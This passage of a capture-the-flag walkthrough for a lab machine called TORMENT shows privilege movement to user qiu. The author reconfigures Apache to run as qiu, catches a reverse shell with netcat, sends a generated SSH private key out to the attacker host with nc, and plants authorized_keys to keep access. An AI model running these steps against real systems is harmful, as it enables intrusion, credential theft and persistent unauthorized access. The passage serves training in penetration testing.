 ```bash
patrick@TORMENT:~$ ls ..
patrick  qiu
patrick@TORMENT:~$
```

We have another user called qiu. We can modify the apache2.conf to run as qiu and then we can add a php-rev shell to the web directory to get a shell as qiu.

```bash
# These need to be set in /etc/apache2/envvars
User qiu
Group qiu
```

After modifying it all we need to do is run our rev shell and get a shell back.

```bash
nc -lvnp 4242            
listening on [any] 4242 ...
connect to [192.168.247.131] from (UNKNOWN) [192.168.247.134] 42168
Linux TORMENT 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64 GNU/Linux
 18:39:10 up 0 min,  0 users,  load average: 1.48, 0.42, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(qiu) gid=1000(qiu) groups=1000(qiu),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),113(bluetooth),114(lpadmin),118(scanner)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(qiu) gid=1000(qiu) groups=1000(qiu),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),113(bluetooth),114(lpadmin),118(scanner)
$ 
```

And there we go, we now have a shell as qiu. Let’s go ahead and get a more interactive shell and perform some more enumeration. It seems qiu doesn’t have an ssh key setup, we can set one up so that we can connect and get a better shell.

```bash
$ ssh-keygen -b 2048 -t rsa -f ./id_rsa -q -N ""
$ ls
id_rsa
id_rsa.pub
$ nc 192.168.247.131 4243 < id_rsa
$ mv id_rsa.pub authorized_keys
```

```bash
ssh qiu@192.168.247.134 -i qiu_key
Linux TORMENT 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
qiu@TORMENT:~$ 
```
